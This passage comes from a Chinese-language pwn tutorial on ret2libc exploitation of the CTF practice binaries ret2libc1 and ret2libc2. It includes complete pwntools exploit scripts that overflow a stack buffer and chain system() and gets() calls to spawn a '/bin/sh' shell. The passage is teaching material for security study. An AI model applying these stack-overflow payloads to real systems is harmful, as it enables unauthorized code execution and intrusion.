

 地址在 0×08048720 或者使用 ROPgadget 搜索字符串也可以通过pwntools直接获得： 



4、动态调试程序查看偏移

方法如上例，通过覆盖返回地址使程序在函数返回时跳转到无效地址引起调试器报错，偏移为：112

5、编写 exp

```python
from pwn import *

#context.log_level = 'debug'

sh = process('./ret2libc1')

elf = ELF('ret2libc1')

def pwn(sh, payload):
	sh.recvuntil('\n')
	sh.sendline(payload)
	sh.interactive()

#system_addr = 0x08048460
system_addr = elf.plt['system']
#binsh_addr = 0x08048720
binsh_addr = elf.search('/bin/sh').next()
ret_addr = 0xdeadbeef

payload = 'a' * 112 + p32(system_addr) + p32(ret_addr) + p32(binsh_addr)
pwn(sh, payload)
```



### 0×02 ret2libc2

与 ret2libc1 不同的是程序中不包含 “/bin/sh” 字符串，需要自己将字符串写入到内存中。所以整个过程分成了两部分，第一部分是将 “/bin/sh” 读入到内存中；第二部分是执行 system() 获取 shell。

1、构造 payload

第一部分：

```bash
‘a' * 112 + gets_plt + ret_addr + buf_addr
```

这里需要思考两点，第一点就是 buf 地址，我们的 “/bin/sh” 应该放在哪里，通常我们会选择 .bss (存储未初始化全局变量) 段，IDA 查看 .bss 段发现程序给出了 buf2[100]数组，正好就可以使用这块区域。



 现在考虑返回地址，因为在 gets() 函数完成后需要调用 system() 函数需要保持堆栈平衡，所以在调用完 gets() 函数后提升堆栈，这就需要 add esp, 4 这样的指令但是程序中并没有这样的指令。更换思路，通过使用 pop xxx 指令也可以完成同样的功能，在程序中找到了 pop ebx，ret 指令。 



第二部分：

这部分就与上一题一样，

```bash
system_plt + ret_addr + buf_addr
```

还有另外一种 payload 更简洁情况：

在 gets() 函数调用完后，在返回地址处覆盖上 system() 的地址将 gets() 函数的参数 buf 地址当成返回地址，再在后面加上 system() 函数的参数 buf。

```bash
’a' * 112 + gets_plt + system_plt + buf_addr + buf_addr
```

 2、编写 exp 

```python
from pwn import *

#context.log_level = 'debug'

sh = process('./ret2libc2')

elf = ELF('ret2libc2')

def pwn(sh, payload):
	sh.recvuntil('?')
	sh.sendline(payload)
	sh.sendline('/bin/sh')#这里将 /bin/sh 传入 buf 中
	sh.interactive()

buf = elf.symbols['buf2']
gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
pop_ebx_ret = 0x0804843d
ret_addr = 0xdeadbeef

#payload = 'a' * 112 + p32(gets_plt) + p32(pop_ebx_ret) + p32(buf) + p32(system_plt) + p32(ret_addr) + p32(buf)
payload = 'a' * 112 + p32(gets_plt) + p32(system_plt) + p32(buf) + p32(buf)
pwn(sh, payload)
```



<br/>

## 0×08 总结

本文主要介绍了一下动态链接的基本过程，GOT、PLT、延迟绑定等有关技术点，有了这些基础对理解 ret2libc 技术和后面继续深入的其他技术会有很大的帮助。

<br/>

## 0×09 参考

> 《程序员的自我修养 —— 链接、装载与库》这本书很细致的讲解了操作系统是如何加载和运行程序，极力推荐
>
> [一步一步学rop蒸米](http://wooyun.jozxing.cc/search?keywords=一步一步学rop&content_search_by=by_drops)
>
> [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stack_intro/)